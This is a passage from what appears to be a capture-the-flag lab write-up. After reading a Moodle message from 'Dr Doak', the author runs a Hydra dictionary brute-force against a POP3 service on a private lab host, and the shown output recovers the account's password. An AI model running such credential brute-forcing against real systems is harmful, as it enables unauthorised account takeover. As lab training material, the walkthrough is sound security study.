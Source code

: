 ![Xenia Moodle](images/xenia_moodle.png)

The web report that there is a message from Dr Doak, let's see it.

![Oak Message](images/oak_message.png)

Now, let's bruteforce again but with user doak.

```Console
# hydra -l doak -P fasttrack.txt -s 55007 10.0.2.30 pop3
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 18:13:55
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.2.30:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.2.30   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
```